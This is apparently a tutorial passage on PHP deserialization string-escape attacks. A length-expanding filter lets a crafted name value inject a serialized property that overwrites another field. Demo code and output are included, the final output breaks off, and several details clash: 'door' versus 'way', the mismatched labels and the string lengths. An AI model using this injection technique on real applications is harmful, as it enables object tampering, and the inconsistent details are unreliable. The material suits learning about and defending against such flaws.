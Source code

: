 - Passing in more than one x on the parameter name causes overflow and causes deserialization failure

```php
<?php
function up($str){
    return str_replace("x","xx",$str);
}
class D1no{
    public $name = 'H3rmesk1tx';
    public $way = 'Web_Crypto_Misc';
}

echo serialize(new D1no())."\n";
echo "Before filtering","\n";
$c = unserialize((serialize(new D1no())));
print_r($c)."\n";
echo "Filtered"."\n";
$c = unserialize(up(serialize(new D1no())));
print_r($c);
?>
=>
O:4:"D1no":2:{s:4:"name";s:10:"H3rmesk1tx";s:3:"way";s:15:"Web_Crypto_Misc";}
Before filtering
D1no Object
(
    [name] =H3rmesk1tx
    [way] =Web_Crypto_Misc
)
After filtering
```

- String escape implementation
Set the value of name to `H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";s:4:"door";s:7:"Hacker!";}`, `";s:4:"door";s:7:"Hacker!";}` section has a total of 28 characters. Since the up function we defined replaces one `x` with two `xx`, 28 in the name parameter `x` will be replaced with 56 `x`, and the additional 28 `x` replaces the name parameter `";s:4:"door";s:7:"Hacker!";}`, so `s:4:"door";s:7:"Hacker!";}` can overflow, `"` closes the previous string, so that the string we filled in successfully escapes and performs deserialization operation, and the parameter way is replaced with `Hacker!`

```php
<?php
function up($str){
    return str_replace("x","xx",$str);
}
class D1no{
    public $name = 'H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";s:3:"way";s:7:"Hacker!";}';
    public $way = 'Web_Crypto_Misc';
}

echo serialize(new D1no())."\n";
echo "Before filtering","\n";
$c = unserialize((serialize(new D1no())));
print_r($c)."\n";
echo "Filtered"."\n";
$c = unserialize(up(serialize(new D1no())));
print_r($c);
?>
=>
O:4:"D1no":2:{s:4:"name";s:63:"H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";s:3:"way";s:7:"Hacker!";}";s:3:"way";s:15:"Web_Crypto_Misc";}
Before filtering
D1no Object
```